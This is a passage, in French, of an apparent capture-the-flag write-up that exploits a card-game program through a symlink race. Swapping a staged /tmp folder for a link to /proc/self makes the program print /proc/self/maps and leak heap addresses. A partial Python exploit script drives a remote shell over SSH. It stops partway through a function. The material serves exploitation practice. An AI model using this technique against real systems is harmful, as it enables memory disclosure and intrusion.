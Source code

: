 Une fois ces conditions satisfaites, le chemin d'accès au fichier est stocké en mémoire. Le fichier est ensuite réouvert, et les 16 premières lignes sont lues, chaque ligne pouvant contenir jusqu'à 255 caractères.

**Remarque Importante** : Ces conditions sont présentes uniquement lors du chargement de la carte pour récupérer le chemin d'accès au fichier. Après cela, elles ne sont plus requises pour l'affichage du fichier lorsque nous choisissons "Pierre" durant une partie.

Pour exploiter cette vulnérabilité et réaliser un leak de la heap, nous suivrons les étapes suivantes :

1. Création d'une structure de fichier respectant les conditions :
   1. Créer un dossier nommé "toto" dans le dossier "/tmp" contenant un fichier "maps" qui respecte les conditions de chargement.
2. Chargement de la carte au lancement du programme :
   1. Charger la carte "Pierre" à l'ouverture du programme en utilisant le chemin du fichier préalablement créé, /tmp/toto/maps.
3. Remplacement du dossier par un lien symbolique :
   1. Une fois le chemin du fichier conservé en mémoire, supprimer le dossier "toto" et le remplacer par un lien symbolique pointant sur /proc/self.
4. Affichage des 16 premières lignes du fichier /proc/self/maps :
   1. Durant le déroulement d'une partie, choisir "Pierre" pour déclencher l'affichage des 16 premières lignes du fichier /tmp/toto/maps, qui pointe désormais vers /proc/self/maps.

```python
CARD_PATH = '/tmp/toto'
WIN_MESSAGE = 'Good job on your win !'
EXIT_MESSAGE = 'You chose to exit. Bye!'
QUESTION_CHOICE_MESSAGE = 'What do you pick ?'

DEBUG = False

def remove_card_folder():
	global CARD_PATH, ssh_session, DEBUG
	if not DEBUG:
		sh = ssh_session.process('/bin/sh')
		sh.sendline(('rm -rf ' + CARD_PATH + '; exit'))
	else:
		if os.path.exists(CARD_PATH):
			if os.path.islink(CARD_PATH):
				os.unlink(CARD_PATH)
			else:
				maps_path = CARD_PATH + '/maps'
				if os.path.exists(maps_path):
					os.remove(maps_path)
				os.rmdir(CARD_PATH)

def create_card():
	global CARD_PATH, ssh_session, DEBUG
	card = "\n".join(["A"*16 for i in range(17)])
	filepath = CARD_PATH + '/maps'
	remove_card_folder()
	if not DEBUG:
		sh = ssh_session.process('/bin/sh')
		sh.sendline(('mkdir ' + CARD_PATH + ';echo "' + b64encode(card) + '" | base64 -d > ' + filepath + '; exit'))
	else:
		os.mkdir(CARD_PATH)
		with open(filepath, 'w') as f:
			f.write(card)

def create_symlink():
	global CARD_PATH, ssh_session, DEBUG
	remove_card_folder()
	if not DEBUG:
		sh = ssh_session.process('/bin/sh')
```